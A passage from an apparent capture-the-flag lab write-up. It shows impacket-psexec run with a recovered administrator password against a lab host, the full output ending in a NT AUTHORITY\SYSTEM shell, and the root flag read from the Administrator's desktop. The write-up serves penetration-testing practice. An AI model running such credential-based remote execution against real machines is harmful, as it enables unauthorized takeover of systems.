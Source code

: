 Great we got Admin Password. Let's try out `impacket-psexec` to get shell
```
# impacket-psexec administrator:XtH4nkS4Pl4y1nGX@10.10.10.178                                            
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file HZHqBUgl.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service YwIJ on 10.10.10.178.....
[*] Starting service YwIJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Users\Administrator\Desktop> type root.txt
d147148492ab3459e6321b1b2d13d2e2
```

Get your Root flag.